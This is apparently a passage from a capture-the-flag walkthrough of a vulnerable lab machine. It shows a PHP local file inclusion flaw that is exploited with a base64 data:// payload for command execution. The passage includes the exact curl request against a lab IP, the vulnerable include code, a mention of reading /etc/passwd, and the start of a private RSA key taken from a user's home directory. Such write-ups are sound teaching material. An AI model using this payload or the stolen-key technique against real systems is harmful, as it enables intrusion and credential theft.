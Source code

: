 ![](pics/2ndblog.JPG)

We try to include some other files on the page= parameter with different methods and encodings but don't get anywhere yet. Next we try using a PHP wrapper like ```data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7IA==``` on it which seems to always work and we can execute one command at a time with this shell in burp or with curl like so. 
```bash
$ curl -v '192.168.147.178/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7IA==&cmd=id'
```
We can see the index.php is doing a bit of filtering when it includes things.
```php
<div id="content">';
$blacklist_include=array("php://");
for ($i=0; $i<count($blacklist_include); $i++){
       	if (strpos($_GET['page'],$blacklist_include[$i]) !== false){
                die();
        }
}
$page = $_GET['page'];
include ($page);
echo	'</div>
```
We try doing the usual one liner reverse shells but the blacklisting or something else is preventing it. From here we can cat /etc/passwd and see two users with login shells, mauk and jetta. When we look at mauk's home directories we notice his private key is readable and not encrypted.
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA5sm/rHHoCaTtncp7DCSIJlWnUg9eyfpJ3czIn18U1lv5ZQf0
9yGaDxafualdpXCNMo32mVQb9XQ7c2N7sdSdAjsgSjV0YG/IZGZNRyFS58YJQRdZ
5wRu6eKAlQVss/Lq3zwuBsT8Om/1/cKpVgB3ukPtKA97M5iSxL1VWWXg6GVoJ6f6
zIio/DZMFCxOU9Wyl7i8ssEoBxQlmgZh9pnYYhwo7Rf3RXBJeHDpuc1g+vol2vRN
```